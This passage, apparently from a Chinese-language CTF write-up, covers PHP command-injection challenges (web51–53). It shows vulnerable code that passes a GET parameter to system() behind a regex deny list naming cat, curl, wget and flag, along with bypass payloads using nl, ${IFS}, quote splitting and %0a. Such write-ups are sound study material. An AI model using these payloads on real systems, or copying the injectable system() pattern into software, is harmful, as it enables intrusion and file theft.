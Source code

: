 > 
Payload


```
?c=nl&lt;&gt;fla\g.php%0a

```

## web52

> 
源码


```
&lt;?php
​
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\&gt;|\&lt;/i", $c)){
system($c."&gt;/dev/null 2&gt;&amp;1");
}
}else{
highlight_file(__FILE__);
}

```

> 
Payload


```
?c=nl${IFS}/fla''g%0a

```

## web53

> 
源码


```
&lt;?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\&gt;|\&lt;/i", $c)){
        echo($c);
        $d = system($c);
        echo "&lt;br&gt;".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}

```
